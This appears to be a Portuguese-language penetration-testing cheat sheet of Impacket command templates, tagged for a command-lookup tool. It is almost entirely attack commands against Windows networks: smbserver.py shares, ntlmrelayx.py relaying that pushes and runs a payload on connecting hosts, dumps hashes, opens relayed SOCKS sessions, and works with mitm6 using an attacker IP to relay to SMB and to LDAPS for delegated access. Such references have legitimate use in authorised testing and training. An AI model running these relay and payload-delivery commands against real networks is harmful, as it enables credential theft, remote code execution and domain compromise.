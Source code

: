 # Impacket

## smbserver - share smb pasta
#plateform/linux #target/serve #port/445 #protocol/smb #cat/ATTACK/LISTEN-SERVE 

Implementação de um servidor SMB usando python. Permite rapidamente configurar shares e contas de usuario. 

```
smbserver.py <shareName> <sharePath>
```

## smbserver - share smb pasta com autenticação
#plateform/linux #target/serve #port/445 #protocol/smb #cat/ATTACK/LISTEN-SERVE 

```
smbserver.py -username <username> -password <password> <shareName> <sharePath>
```

## ntlmrelay - hospeda um payload que sera entregue automaticamente para o host remoto que se conectar.

#plateform/linux #target/serve #cat/ATTACK/MITM 

```
ntlmrelayx.py -tf <targets_file> -smb2support -e <payload_file|payload.exe>
```

## ntlmrelay - socks
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
ntlmrelayx.py -tf <targets_file> -socks -smb2support
```

## ntlmrelay - autentica e realiza o dump de hashes.
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
ntlmrelayx.py -tf <targets_file> -smb2support
```

## ntlmrelay - para usar com mitm6 - Encaminha para o alvo

#plateform/linux #target/serve #cat/ATTACK/MITM 
Em seguida, use SOCKS com o proxychains : 
proxychains smbclient //ip/Users -U domain/user

```
ntlmrelayx.py -6 -wh <attacker_ip> -t smb://<target> -l /tmp -socks -debug
```

## ntlmrelay - para usar com mitm6 - delegar acesso
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
ntlmrelayx.py -t ldaps://<dc_ip> -wh <attacker_ip> --delegate-access
```